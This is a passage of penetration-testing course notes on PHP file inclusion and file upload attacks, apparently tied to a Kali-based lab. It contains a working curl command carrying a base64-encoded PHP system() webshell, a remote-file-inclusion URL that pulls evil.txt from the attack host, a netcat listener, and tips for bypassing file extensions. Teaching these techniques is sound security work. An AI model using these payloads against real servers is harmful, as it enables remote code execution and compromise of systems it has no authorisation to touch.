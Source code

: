       kali@kali:~$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
      ```

> **Note**:
> he data:// wrapper will not work in a default PHP installation. To exploit it, the *allow_url_include* setting needs to be enabled.

### Remote File Inclusion (RFI)
Remote file inclusion (RFI) vulnerabilities are less common than LFIs since the server must be configured in a very specific way, but they are usually easier to exploit. For example, PHP apps must be configured with **`allow_url_include`** set to "On". Older versions of PHP set this on by default but newer versions default to "Off". If we can force a web application to load a remote file and execute the code, we have more flexibility in creating the exploit payload.

> The `php.ini` file can be found at **`C:\xampp\php\php.ini`** and contains **`allow_url_include`**. 

- Let’s look at an example of an RFI vulnerability. Consider the following:
    ```url
    http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
    ```
- This request would force the PHP webserver to try to include a remote file from our Kali attack machine. We can test this by launching a netcat listener on our Kali machine, then submitting the URL on our Windows 10 target:
    ```
    kali@kali:~$ sudo nc -nvlp 80
    listening on [any] 80 ...
    connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50324
    GET /evil.txt HTTP/1.0
    ```
> Older versions of PHP have a vulnerability in which a null byte (`%00`) will terminate any string. This trick can be used to bypass file extensions added server-side and is useful for file inclusions because it prevents the file extension from being considered as part of the string. In other words, if an application reads in a parameter and appends `.php` to it, a null byte passed in the parameter effectively ends the string without the `.php` extension. This gives an attacker more flexibility in what files can be loaded with the file inclusion vulnerability.
>
> Another trick for RFI payloads is to end them with a question mark (`?`) to mark anything added to the URL server-side as part of the query string.

- There are many types of webshells and Kali includes several in **`/usr/share/webshells`**, written in many common web application programming languages.
- There are some more in **`/usr/share/seclists/Web-Shells`**.

## File Upload Vulnerabilities
Many web applications provide functionality to upload files. In general, we can group File Upload vulnerabilities into three categories:
- Vulnerabilities enabling us to upload files that are executable by the web application. For example, if we can upload a PHP script to a web server where PHP is enabled, we can execute the script by accessing it via the browser or curl.
- Vulnerabilities that require us to combine the file upload mechanism with another vulnerability, such as Directory Traversal. For example, if the web application is vulnerable to Directory Traversal, we can use a relative path in the file upload request and try to overwrite files like **authorized_keys**. Furthermore, we can also combine file upload mechanisms with *XML External Entity* (XXE) or *Cross Site Scripting* (XSS) attacks.
- The third category relies on user interaction. For example, when we discover an upload form for job applications, we can try to upload a CV in *.docx* format with malicious *macros* integrated.
### Using Executable Files
> **Note**: